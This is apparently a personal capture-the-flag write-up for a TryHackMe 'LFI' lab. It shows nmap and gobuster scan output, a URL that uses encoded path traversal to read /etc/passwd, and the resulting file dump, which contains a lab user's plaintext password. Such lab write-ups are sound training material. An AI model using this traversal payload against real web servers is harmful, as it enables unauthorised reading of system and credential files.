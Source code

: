 #+TITLE: LFI

* nmap
- results
  - 2 ports open
  - ssh on usual port
  - http on usual port
  - ubuntu machine

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lfi]
└──╼ # nmap -sC -sV -oA nmap/scan 10.10.57.130
Starting Nmap 7.91 ( https://nmap.org  ) at 2020-11-11 13:03 GMT
Nmap scan report for 10.10.57.130
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.96 seconds

#+end_src


* gobuster
- it discovers nothing

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lfi]
└──╼ # gobuster dir -u 10.10.57.130 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o go.scan
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.57.130
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/11 13:04:48 Starting gobuster
===============================================================
Progress: 17350 / 87665 (19.79%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/11 13:11:29 Finished
===============================================================

#+end_src

* usernames

- after digging with zap we not only find a username but we get an exploit
  : falconfeast

* vulnerability

- local file inclusion
  : http://10.10.57.130/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

- contents of /etc/passwd
  : root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
